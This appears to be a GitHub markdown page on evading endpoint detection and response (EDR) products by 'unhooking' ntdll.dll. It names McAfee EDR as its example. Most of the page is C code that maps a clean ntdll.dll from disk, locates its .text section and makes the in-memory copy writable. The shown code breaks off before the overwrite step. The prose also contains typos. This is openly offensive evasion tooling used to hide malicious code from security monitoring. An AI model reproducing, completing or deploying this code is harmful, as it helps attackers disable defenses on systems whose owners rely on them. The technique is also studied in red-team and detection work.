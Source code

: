 ### Bypassing EDR 

Instead of bypassing infected *ntdlll.dll* hooks with direct syscall, EDR hook might be completely removed from loaded module (unhook any DLL loaded in memory) by reading .text section from disk and placing it on top of .text section of mapped ntdll.dl. This may heko avoid some EDR solutions that rely on userland API hooking.

#### Example

Here looking into McAfee EDR, hooking engine of other EDR may differ...

```c 
#include <iostream>
#include <windows.h>
#include <winternl.h>
#include <psapi.h>

int main() {
  HANDLE hProcess = GetCurrentProcess();
  MODULEINFO moduleInfo = {};
  HMODULE hNtdllModule = GetModuleHandleA("ntdll.dll");
  LPVOID lpStartingPageAddress = NULL;
  SIZE_T dwSizeOfTheRegion = NULL;

  // retrieve information about the loaded ntdll.dll module
  GetModuleInformation(hProcess, hNtdllModule, &moduleInfo, sizeof(moduleInfo));

  // get the base address of the ntdll.dll module
  LPVOID lpNtdllBase = (LPVOID)moduleInfo.lpBaseOfDll;

  // open the ntdll.dll file
  HANDLE hNtdllFile = CreateFileA("c:\\windows\\system32\\ntdll.dll", GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);

  // create a file mapping for the ntdll.dll file
  HANDLE hNtdllMapping = CreateFileMapping(hNtdllFile, NULL, PAGE_READONLY | SEC_IMAGE, 0, 0, NULL);

  // map the file mapping into the process's virtual address space
  LPVOID lpNtdllMappingAddress = MapViewOfFile(hNtdllMapping, FILE_MAP_READ, 0, 0, 0);

  // get the DOS header of the hooked ntdll.dll
  PIMAGE_DOS_HEADER pDosHeaderOfHookedDll = (PIMAGE_DOS_HEADER)lpNtdllBase;

  // get the NT header of the hooked ntdll.dll
  PIMAGE_NT_HEADERS pNtHeaderOfHookedDll = (PIMAGE_NT_HEADERS)((DWORD_PTR)lpNtdllBase + pDosHeaderOfHookedDll->e_lfanew);

  // loop through each section of the PE header
  for (WORD i = 0; i < pNtHeaderOfHookedDll->FileHeader.NumberOfSections; i++) {
    PIMAGE_SECTION_HEADER pHookedSectionHeader = (PIMAGE_SECTION_HEADER)((DWORD_PTR)IMAGE_FIRST_SECTION(pNtHeaderOfHookedDll) + ((DWORD_PTR)IMAGE_SIZEOF_SECTION_HEADER * i));

    // check if the section is the .text section
    if (!strcmp((char*)pHookedSectionHeader->Name, (char*)".text")) {
      DWORD dwOldProtection = 0;
      lpStartingPageAddress = (LPVOID)((DWORD_PTR)lpNtdllBase + (DWORD_PTR)pHookedSectionHeader->VirtualAddress);
      dwSizeOfTheRegion = pHookedSectionHeader->Misc.VirtualSize;

      // change the protection of the memory region to allow writing
      bool bIsProtected = VirtualProtect(lpStartingPageAddress, dwSizeOfTheRegion, PAGE_EXECUTE_READWRITE, &dwOldProtection);

```